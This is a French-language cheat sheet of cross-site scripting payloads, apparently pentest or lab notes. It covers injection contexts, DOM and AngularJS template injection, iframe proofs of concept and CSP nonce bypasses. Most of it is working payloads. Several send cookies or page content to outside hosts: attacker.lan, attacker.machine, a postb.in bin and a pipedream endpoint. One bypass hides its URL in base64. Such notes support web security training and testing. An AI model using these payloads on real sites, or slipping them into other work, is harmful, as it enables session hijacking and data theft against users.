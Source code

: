# XSS

## Ressources 

* [SecList](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing)

* [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```html
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

## types

### Reflected & Stored

```html
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

exécutera : 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

### DOM

```html
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

#### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

#### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor("alert(1)")()}}
```

vol de cookie : 

```js
{{constructor.constructor(&#x27;document.location="https://www.postb.in/1753692960736-3552180754486?cmd=".concat(document.cookie)&#x27;)()}}
http://exemple.com/index.php?param=%7B%7Bconstructor.constructor%28%26%23x27%3Bdocument.location%3D%22https%3A%2F%2Fwww.postb.in%2F1753692960736-3552180754486%3Fcmd%3D%22.concat%28document.cookie%29%26%23x27%3B%29%28%29%7D%7D
```


#### in xhr

```js
\"-alert(1)}//
```

### POC depuis un iframe

```html
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```html
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


## Nonce


* Le `Nonce` (number used once) sont générer par le serveur est utilisé une seule fois.

1. Le serveur génère un nonce aléatoire

2. Il inclut ce nonce dans le header HTTP `Content-Security-Policy`

3. Dans la page HTML, tous les scripts inline ou externes autorisés ont cet attribut : `<script nonce="cbf6db1d77f646653fe0e66d34d84570">...</script>`

4. Seuls les scripts ayant la valeur `Nonce` de la CSP sont exécutés.


------------

## Retours d'expérience

* Prendre le temps le lire le `CSP`

### Success

* Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit jusqu'a avoir des réponses 200 avec chars non encodés
* regarder dans le débugger du navigateur: "inspect element" et onglet "source" pour contrôler l'échappent.

* Vol de cookie (DOM based) : 

```js
test';document.location="https://attacker.lan?c="+document.cookie;'
```

```html
<script>
fetch('https://attacker.machine', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

* Vol du contenu la page web :

```html
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```

```html
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```


* marche aussi dans un fichier **.svg**

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```

fun pour les DOM :

```html
<marquee onstart=alert(1)>XSS</marquee>
```

Exemple de Contournement avec Nonce et Inline : 

```html
<script nonce="...">
  window["location"] = atob("aHR0cHM6Ly9hdHRhY2subGFuP2M9") + window["docu"+"ment"]["cookie"]
</script>
```


### Fails

* Le texte issu d'un `InnerHTML` ou d'autre fonction JS similaire n'est pas (toujours) interprété par le Navigateur. 

* Lorsque le XSS `inline` est refusé par la `CSP` on peut tenter un `Iframe` ou `javascript:`
